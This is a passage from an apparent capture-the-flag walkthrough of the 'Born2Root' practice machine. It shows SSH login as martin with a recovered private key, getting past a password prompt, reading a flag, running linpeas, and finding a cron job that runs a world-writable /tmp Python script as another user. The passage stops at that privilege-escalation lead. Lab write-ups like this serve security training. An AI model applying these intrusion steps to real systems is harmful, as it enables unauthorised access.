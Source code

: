And now that we have a ssh key but we don't know which user it belongs to 

I'll try connecting to each user in the wordlist we generated earlier

And luckily martin worked just fine 

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Born2Root]
└─$ ssh -i idrsa martin@192.168.66.49                                   

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jan 23 23:44:35 2023 from 192.168.49.66

READY TO ACCESS THE SECRET LAB ? 

secret password : 
```

It asks for secret password giving it anything works just fine

Also you will need to add `export TERM=xterm` cause the screen won't clear if you use `clear` command

```
martin@debian:~$ ls
local.txt
martin@debian:~$ cat local.txt 
060de34fc7b481ac4dd68665db7cc76b
martin@debian:~$
```

Now lets get root 

I'll upload linpeas to the machine

Crontab shows there's a script running in the `/tmp` directory

```
martin@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5   * * * *   jimmy   python /tmp/sekurity.py
```
